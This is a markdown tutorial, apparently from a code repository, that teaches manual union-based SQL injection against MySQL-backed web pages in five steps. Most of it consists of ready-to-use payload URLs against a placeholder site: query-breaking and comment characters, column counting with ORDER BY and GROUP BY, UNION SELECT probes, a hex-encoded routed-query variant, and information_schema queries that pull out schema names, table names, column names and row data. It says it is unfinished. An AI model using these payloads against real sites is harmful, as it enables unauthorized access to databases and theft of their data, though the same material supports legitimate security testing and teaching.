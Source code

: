 # MySQL SQL Injection

#### Steps to perform SQL Injection.
1. Break the Query.
2. Fix/Balance the Query.
3. Get the total number of columns.
4. Get the vulnerable columns.
5. Exploit. (get the data from database)


### 1) Break the Query.
- let's say we have target https://website.com/product/id?=23 now, we want to test this URL for SQL Injection. So, as described in steps above, the very first thing we've to do is **Break the Query**.
- So, for breaking the query, we can use ``` ', ", `, . ```
 - example,
   - https://website.com/product/id?=23'
   - https://website.com/product/id?=23"
- after adding the ``` ', ", `, .```, you'll see error messages like, `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1` or any wired errors or maybe unusual behaviour in/on target website.

### 2) Fix the Query.
- after breaking the query, we've to fix the query. So, we can **balance** the **SQL QUERY**.
- So, for that we can use ``` --, --+, -- -, #, --#, ., -, /*, '), "), `), ')), ")),`)), ') -- ```
- example,
   - https://website.com/product/id?=23' --
   - https://website.com/product/id?=23' --+
   - https://website.com/product/id?=23' -- -
   - https://website.com/product/id?=23' #
   - https://website.com/product/id?=23' --#
   - https://website.com/product/id?=23' /*
   - https://website.com/product/id?=.23' --+ (see the `.`)
   - https://website.com/product/id?=-23' --+ (see the `-`)
   - https://website.com/product/id?=-23') --+ (see the `-`)
   - etc. (*there are many ways to fix the query. at the time of wrting this, I forgot some of them. I'll add them If I came to know about it. till then, add your own variations to it.*)
 
### 3) Get the total number of columns.
- after balancing/fixing the query, we need to solve this question. **how many columns are there ?**
- So, to check the columns we can use ``` ORDER BY, GROUP BY, PROCEDURE ANALYSE() ```
- example,
   - https://website.com/product/id?=23' ORDER BY 5-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 4-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' ORDER BY 1,2,3,4,5-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 1,2,3,4-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 1,2,3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' GROUP BY 5-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 4-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4,5-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' PROCEDURE ANALYSE()-- ERROR. (In this method, the website will act wiredly. So, keep closer look on website. ex. list random lists, paragraphs, errors, or something else, etc.)
     - Look at the website, if website lists random things let's say some 3 dots or whatever. then, confirm that, website has 3 columns.

### 4) Get the vulnerable columns.
- after getting the total number of columns, now it's time to find vulnerable columns, where we can try to place our pyloads strings to get the data from the database.
- So, to get the vulnerable columns, we can use ```UNION SELECT NULL or INT ``` or ```UNION ALL SELECT NULL or INT ```.
- add the NULL or INT value, total number of columns we get.
- example,
   - https://website.com/product/id?=23' UNION SELECT 1,2,3-- Because, we got the total 3 columns.
   - https://website.com/product/id?=23' UNION SELECT NULL,NULL,NULL--
   - https://website.com/product/id?=23' UNION ALL SELECT 1,2,3--
   - https://website.com/product/id?=23' UNION ALL SELECT NULL,NULL,NULL--
- now, in the case of `https://website.com/product/id?=23' UNION SELECT 1,2,3--`, you'll see a numbers been reflacted on the website. ex. 2,3. So, columns 2 & 3 is vulnerable.
- in case of NULL, we've to replace NULL by adding strings in each NULL value to get the vulnerable columns.
- example,
  - https://website.com/product/id?=23' UNION SELECT 'findVulClmn',NULL,NULL-- See, if `findVulClmn` been reflacted on website or not. if yes, then, congratulations, we've found vulnerable columns.
  - if not, go ahead and try, https://website.com/product/id?=23' UNION SELECT NULL, 'findVulClmn',NULL--.
  - try until you find some string being reflacted on website.

- **What if we didn't see any numbers been reflacted on website?**
 - So, in that case, we've to try other methods. such as, routed query, etc.
   - ***Routed Query***
     - So, in routed query injection technique, we do something like this,
       1. https://website.com/product/id?=23' UNION SELECT 1',2,3--
       2. https://website.com/product/id?=23' UNION SELECT 0x3127,2,3-- (**here 1' is 0xHEX-'0x3127' encoded.**)
         - now, put **0xHEX** encoded value on each column one after one and see the results. If, web page gets redirected or gets error or something strange happens in/on web page, then, assume that we can put our **routed query** in that column.
           - example,
             - if we get errors on 2nd column, (i.e. https://website.com/product/id?=23' UNION SELECT 1,0x3127,3--) then, we can perform our injection on that column like this,
             1. *Get the total number of columns:* https://website.com/product/id?=23' UNION SELECT 1,2' ORDER BY 10--,3-- ***(0xHEX the ORDER BY 10--)***
             2. *Get the vulnerable column:* https://website.com/product/id?=23' UNION SELECT 1,2' UNION SELECT 1,2,3,4,5--,3-- ***(0xHEX the UNION SELECT 1,2,3,4,5--)***
             3. now, you got the point. 🙂

### 5) Exploit. (get the data from database)
- So, after getting vulnerable columns, we can get the data from database by using various payloads.
- **get the version**
   - https://website.com/product/id?=23' UNION SELECT NULL,@@version,NULL--
- **get the database**
   - https://website.com/product/id?=23' UNION SELECT NULL,concat(schema_name), NULL FROM information_schema.schemata--
- **get the tables**
  - https://website.com/product/id?=23' UNION SELECT NULL,concat(table_name), NULL FROM information_schema.tables WHERE table_schema='DATABASE'--
- **get the columns**
   - https://website.com/product/id?=23' UNION SELECT NULL,concat(column_name), NULL FROM information_schema.columns WHERE table_name='TABLE_NAME'--
- **get the data**
   - https://website.com/product/id?=23' UNION SELECT NULL,concat(0x28,column_1,0x3a,column_2,0x29), NULL FROM TABLE_NAME--


**Note:** not completed. to be continued...
